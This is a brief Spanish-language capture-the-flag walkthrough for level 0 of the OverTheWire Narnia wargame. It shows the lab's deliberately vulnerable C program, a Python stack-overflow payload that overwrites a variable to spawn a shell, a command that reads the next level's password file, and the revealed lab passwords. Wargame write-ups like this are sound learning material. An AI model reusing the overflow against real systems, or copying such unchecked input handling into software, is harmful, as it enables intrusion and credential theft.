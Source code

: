 # Narnia - LAB_4

## Narnia0
ssh narnia0@narnia.labs.overthewire.org -p 2226
narnia0

~~~
cd /narnia/
./narnia0 
~~~
código fuente
~~~
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
~~~
Intentemos escribir 24 bytes como entrada y verifiquemos si la dirección cambia
~~~
python -c 'print 20 * "A" + "BBBB"' | ./narnia0
(python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0
whoami
cat /etc/narnia_pass/narnia1

efeidiedae
~~~

## Narnia1
ssh narnia1@narnia.labs.overthewire.org -p 2226
